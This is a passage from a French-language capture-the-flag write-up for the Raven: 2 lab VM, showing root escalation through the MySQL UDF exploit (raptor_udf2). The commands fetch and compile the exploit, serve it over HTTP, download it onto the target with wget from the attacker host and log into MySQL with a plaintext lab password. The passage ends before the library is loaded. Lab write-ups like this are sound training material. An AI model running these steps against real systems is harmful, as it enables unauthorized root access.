 Contrairement à la VM Raven: 1, Steven n'utilise pas le même mot de passe pour ses accès SSH et WordPress.

Il va falloir trouver un autre moyen de passer root, et la solution ne doit certainement pas résider dans la robustesse des mots de passe. Après une longue recherche et plusieurs échecs, une piste sérieuse se dessine : MySQL est exécuté avec les privilèges de root ! L'exploit _[MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library](https://www.exploit-db.com/exploits/1518/)_ fera parfaitement l'affaire et en plus, il n'y a qu'à suivre les instructions en commentaires.

```console
www-data@Raven:/var/mail$ ps -ef | grep mysql
ps -ef | grep mysql
root       539     1  0 Nov25 ?        00:00:00 /bin/sh /usr/bin/mysqld_safe
root       908   539  0 Nov25 ?        00:00:12 /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/mysql/plugin
--user=root --log-error=/var/log/mysql/error.log --pid-file=/var/run/mysqld/mysqld.pid --socket=/var/run/mysqld/mysqld.sock --port=3306
www-data  2121  1616  0 02:36 pts/1    00:00:00 grep mysql
```

Voici les commandes à réaliser sur le poste attaquant...

```console
root@blinils:~# searchsploit mysql | grep local | grep UDF
MySQL 4.0.17 (Linux) - User-Defined Function (UDF) Dynamic Library (1)     | exploits/linux/local/1181.c
MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)    | exploits/linux/local/1518.c
MySQL 4/5/6 - UDF for Command Execution                                    | exploits/linux/local/7856.txt

root@blinils:~# searchsploit -m 1518
  Exploit: MySQL 4.x/5.0 (Linux) - User-Defined Function (UDF) Dynamic Library (2)
      URL: https://www.exploit-db.com/exploits/1518/
     Path: /usr/share/exploitdb/exploits/linux/local/1518.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /root/1518.c

root@blinils:~# mv /root/1518.c raptor_udf2.c

root@blinils:~# gcc -g -c raptor_udf2.c

root@blinils:~# gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

root@blinils:~# ls raptor*
raptor_udf2.c  raptor_udf2.o  raptor_udf2.so

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

... puis les commandes à réaliser sur le serveur Raven: 2...

```console

www-data@Raven:/tmp$ wget -q http://192.168.56.101:8000/raptor_udf2.so
wget -q http://192.168.56.101:8000/raptor_udf2.so

www-data@Raven:/tmp$ ls
ls
raptor_udf2.so

www-data@Raven:/tmp$ mysql -u root -p
mysql -u root -p
Enter password: R@v3nSecurity

```